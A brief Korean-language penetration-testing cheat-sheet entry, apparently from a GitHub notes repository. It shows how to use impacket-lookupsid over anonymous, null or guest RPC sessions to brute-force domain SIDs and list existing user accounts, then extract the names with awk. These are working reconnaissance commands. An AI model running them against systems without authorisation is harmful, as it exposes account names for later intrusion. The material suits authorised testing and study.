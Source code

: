 
RPC를 통한 익명 로그인을 활용하여 도메인의 SID를 무차별 대입 공격(bruteforcing) 시도, 그 결과를 tee 명령어를 사용해 사용자 이름 파일로 저장

보안이 취약한 RPC 서비스를 통해 권한 없이 시스템에 접근한 뒤, 가능한 모든 사용자 ID(RID)를 대입하여 실제 존재하는 계정 목록을 알아내고 그 결과를 파일로 저장

---


```bash
impacket-lookupsid anonymous@$target | tee usernames
```

```bash
impacket-lookupsid ""@$target | tee usernames
```

```bash
impacket-lookupsid 'guest'@$target > users.txt
```

```bash
impacket-lookupsid '':''@$target > users.txt
```


```bash
awk '/\(SidTypeUser\)/ {split($2, a, "\\"); print a[2]}' users.txt
```


